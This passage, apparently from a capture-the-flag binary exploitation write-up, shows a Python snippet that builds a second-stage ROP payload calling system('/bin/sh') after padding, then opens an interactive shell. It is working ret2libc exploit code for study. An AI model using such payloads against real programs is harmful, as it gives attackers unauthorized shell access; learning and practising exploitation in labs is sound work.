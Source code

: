 ```python
'''
ROP Chain 2nd
Calling `system("/bin/sh\x00")
'''

payload = b"A"*13
payload += p32(system)
payload += p32(0xdeadbeef)
payload += p32(bin_sh)

p.sendline(payload) # Sending the second payload
p.interactive()
```

We are done.